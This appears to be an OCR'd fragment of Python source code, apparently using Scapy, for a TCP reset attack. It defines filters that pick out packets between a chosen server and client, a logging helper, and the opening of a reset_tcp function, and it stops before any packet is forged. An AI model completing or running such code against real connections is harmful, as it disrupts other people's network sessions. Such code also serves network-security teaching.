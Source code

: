 # Packets from server to client (TCP connection)
def tcp_server_client(server_ip, server_port, client_ip):
    def view(result):
        if not result.haslayer(TCP):
            return False

        src_ip = result[IP].src
        src_port = result[TCP].sport
        dst_ip = result[IP].dst

        return src_ip == server_ip and src_port == server_port and dst_ip == client_ip

    return view

# Packets from client to server (TCP connection)
def tcp_client_server(server_ip, server_port, client_ip):
    def view(result):
        if not result.haslayer(TCP):
            return False

        src_ip = result[IP].src
        dst_ip = result[IP].dst
        dst_port = result[TCP].dport

        return src_ip == client_ip and dst_ip == server_ip and dst_port == server_port

    return view

# Check that log of messages shown during the process of the tcp_reset_attack
def parameter(logs, variables={}):
    changed_variables = " ".join([f"{x}={y}" for x, y in variables.items()])
    print(f"{logs} {changed_variables}")
    
    
# Localhost (127.0.0.1) adapter
def localhost(adapter, localhost_ip):
    return len([ip for ip in adapter.ips if ip.ip == localhost_ip]) > 0

# Check the packages that are in the tcp connection
def tcp_conn_packet(server_ip, server_port, client_ip):
    def view(result):
        return (
            tcp_server_client(server_ip, server_port, client_ip)(result) or tcp_client_server(server_ip, server_port, client_ip)(result))
    return view

# Reset TCP connection process, we want to ensure and prove that our Reset segment (seq no.#) has the same value as the final no. of the ack package received by the receiver
def reset_tcp(iface, sequence_segment=0, synchronize=True):

